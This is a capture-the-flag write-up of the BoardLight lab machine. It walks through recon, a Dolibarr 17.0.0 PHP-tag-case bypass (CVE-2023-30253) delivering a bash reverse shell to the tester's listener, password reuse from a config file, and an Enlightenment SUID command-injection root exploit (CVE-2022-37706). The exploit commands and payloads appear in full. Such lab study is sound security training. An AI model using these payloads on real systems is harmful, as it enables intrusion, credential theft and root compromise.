

BoardLight

Recon
Starting with nmap. Only 22 and 80 are open, a plain Apache on Ubuntu.
[BoardLight] sudo nmap -Pn -v -T5 --min-rate 2000 -sSVC -p- -oN nmap 10.129.60.73
Nmap scan report for 10.129.60.73
Host is up (0.16s latency).
Not shown: 65391 closed tcp ports (reset), 142 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
| 256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_ 256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThe web app on port 80 is a company site for a firm called "Board" and points at board.htb, so I added it to /etc/hosts. The site itself is mostly static (a marketing page with a contact form), nothing exploitable on the surface, so the next move is to look for virtual hosts.
Fuzzing the Host header with ffuf and filtering out the default response size (6 words) turns up one live subdomain, crm.board.htb.
[BoardLight] ffuf -u http://board.htb -H 'Host: FUZZ.board.htb' -mc all -w /usr/share/wordlists/SecLists/Discovery/DNS/shubs-subdomains.txt -fw 6243
crm [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 592ms]After adding crm.board.htb to /etc/hosts as well, the subdomain serves a login page for Dolibarr, an open source ERP/CRM. The footer gives away the version: Dolibarr 17.0.0.
Exploitation
Dolibarr 17.0.0 is vulnerable to CVE-2023-30253, a PHP code injection in the website builder module. The catch is that it needs an authenticated account with website permissions, but this instance never changed the install defaults, so admin / admin logs straight in.
The bug itself is a case-sensitivity flaw in Dolibarr's content filter. When you save a website page, Dolibarr strips out <?php tags to stop you from planting server-side code. The filter only matches the lowercase form, so writing the opening tag with mixed case like <?pHp slips past the check while the PHP interpreter still treats it as a valid open tag. Whatever you put between the tags gets executed when the public version of the page is rendered.
I used nikn0laty's PoC (Exploit-for-Dolibarr-17.0.0-CVE-2023-30253), which automates the whole flow: it logs in, creates a website, adds a page, then edits the page source to inject a mixed-case PHP tag carrying a reverse shell, and finally requests the public page URL to fire it.
The injected page content is essentially this, a bash reverse shell wrapped in the case-bypassed tag:
<section id="mysection1" contenteditable="true">
<?pHp system("bash -c 'bash -i >& /dev/tcp/10.10.15.208/4444 0>&1'"); ?>
</section>Start a listener, run the exploit against the CRM, and the public page request triggers the shell.
(env) [BoardLight] python3 exploit.py http://crm.board.htb admin admin 10.10.15.208 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection[BoardLight] nc -lvnp 4444
Connection received on 10.129.60.73
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)Post Exploitation
Foothold as www-data. Dolibarr keeps its configuration, including the database credentials, in conf.php, and it is world readable in the web root:
www-data@boardlight:~$ cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';The interesting part is the password, serverfun2$2023!!. Checking /etc/passwd there is a regular user larissa on the box, and people reuse passwords. The DB password works for her account, so this is a straight su away from the user flag:
www-data@boardlight:~$ su larissa
Password: serverfun2$2023!!
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
larissa@boardlight:~$ cat ~/user.txtPrivilege Escalation
With a proper session as larissa, the first thing worth checking is SUID binaries. Most of the list is the usual Ubuntu set, but a handful belong to Enlightenment, the window manager, which is unusual to see on a server:
larissa@boardlight:~$ find / -perm /4000 2>/dev/null
...
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
...Enlightenment ships enlightenment_sys as a root SUID helper for privileged system actions like mounting devices. It is vulnerable to CVE-2022-37706, a local privilege escalation.
The root cause is in how the helper builds and runs a mount command from paths it receives. It fails to sanitise a path that contains /dev/../ followed by a space, which lets you smuggle a second token into the command it executes as root. By crafting a path like "/dev/../tmp/;/tmp/exploit", the trailing /tmp/exploit is treated as its own command and runs with root privileges. So the trick is to drop a tiny script that just spawns a shell, mark it executable, and feed the crafted path to enlightenment_sys.
This is the public exploit for CVE-2022-37706 (MaherAzzouzi/CVE-2022-37706-LPE-exploit), reduced to the commands that matter:
larissa@boardlight:/tmp$ file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
larissa@boardlight:/tmp$ mkdir -p /tmp/net
larissa@boardlight:/tmp$ mkdir -p "/dev/../tmp/;/tmp/exploit"
larissa@boardlight:/tmp$ echo "/bin/sh" > /tmp/exploit
larissa@boardlight:/tmp$ chmod a+x /tmp/exploit
larissa@boardlight:/tmp$ ${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)The mount part fails as expected, but by then the injected /tmp/exploit has already run as root and dropped us into a root shell. From here it is just reading /root/root.txt.